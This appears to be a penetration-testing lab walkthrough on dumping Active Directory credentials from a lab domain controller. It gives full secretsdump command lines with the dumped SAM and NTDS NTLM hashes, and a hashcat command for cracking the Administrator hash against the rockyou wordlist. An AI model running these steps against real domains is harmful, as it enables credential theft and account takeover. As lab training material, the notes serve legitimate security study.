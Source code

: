 # I. Dumping the NTDS.dit

The NITDS.dit is a databes used to store AD data. This includes:

- User Information
- Group Information
- Security Descriptors
- Password Hashes

We can simply use secretsdump against the DC to perform this attack.

On the Kali box, let’s use secretsdump together with the new user created in the token impersonation attack.

`secretsdump.py <DOMAIN>/user:'password'@<DC-IP>`

This will dump a lot of useful information, including SAM hashes.

```bash
┌──(kali㉿kali)-[~]
└─$ secretsdump.py ONEPIECE.local/brook:'Password1@'@10.0.2.8
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0xd37585e1bfc2f539e963038b37cc0bb7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

The information we’re looking for though is the NTDS.dit secrets.

We can dump just the NTDS.dit with `secretsdump.py <DOMAIN>/user:'password'@<DC-IP> -just-dc-ntlm`:

```bash
──(kali㉿kali)-[~]
└─$ secretsdump.py ONEPIECE.local/brook:'Password1@'@10.0.2.8 -just-dc-ntlm
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7f8bf37c04c80ab31f2e62a0a386e48c:::
ONEPIECE.local\M.D.Luffy:1103:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
ONEPIECE.local\SQLService:1104:aad3b435b51404eeaad3b435b51404ee:f4ab68f27303bcb4024650d8fc5f973a:::
ONEPIECE.local\R.Zoro:1105:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
ONEPIECE.local\Franky:1115:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
ONEPIECE.local\Usopp:1116:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
BxSerFwpoA:1119:aad3b435b51404eeaad3b435b51404ee:d1de872b5aad73477fe42f7af8a42d78:::
fRGOqlTyCl:1120:aad3b435b51404eeaad3b435b51404ee:2959218c8910e1e1b523f0789b544a89:::
brook:1121:aad3b435b51404eeaad3b435b51404ee:43460d636f269c709b20049cee36ae7a:::
STRAWHATS-PC$:1000:aad3b435b51404eeaad3b435b51404ee:86d1ca7ab6cd58c374a3517196909e57:::
FRANKY$:1117:aad3b435b51404eeaad3b435b51404ee:ba1fd33af3188537378b74bc188a10f5:::
USOPP$:1118:aad3b435b51404eeaad3b435b51404ee:2800be0cc3c8d966b84641a6730eb0f3:::

```

Next, the most important user we want to crack is the Administrator:

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b5eb83f085bd62f2488424b9999dea3c:::

```

To do this, all we need is the NT part (second half) of the hash.

Before that, there’s a neat trick to order the NTDS.dit secrets by copying them, opening Excel, pasting them in the spreadsheet > `Data` > `Text to Columns` > `Delimited` > `Next` > `Select Other` > `Type : in the text box` > `Next` > `Finish`.

![excel 1.png](I%20Dumping%20the%20NTDS%20dit%2038b453dab8b049fe86f5c2705cec4537/excel_1.png)

![excel 2.png](I%20Dumping%20the%20NTDS%20dit%2038b453dab8b049fe86f5c2705cec4537/excel_2.png)

![excel 3.png](I%20Dumping%20the%20NTDS%20dit%2038b453dab8b049fe86f5c2705cec4537/excel_3.png)

![excel 4.png](I%20Dumping%20the%20NTDS%20dit%2038b453dab8b049fe86f5c2705cec4537/excel_4.png)

Everything is nicely ordered.

Put the second half of the hashes in a text file `ntds.txt`.

Finally use hashcat to crack the hashes.

 `hashcat -m 1000 ntds.txt /usr/share/wordlists/rockyou.txt`

![ntds1.png](I%20Dumping%20the%20NTDS%20dit%2038b453dab8b049fe86f5c2705cec4537/ntds1.png)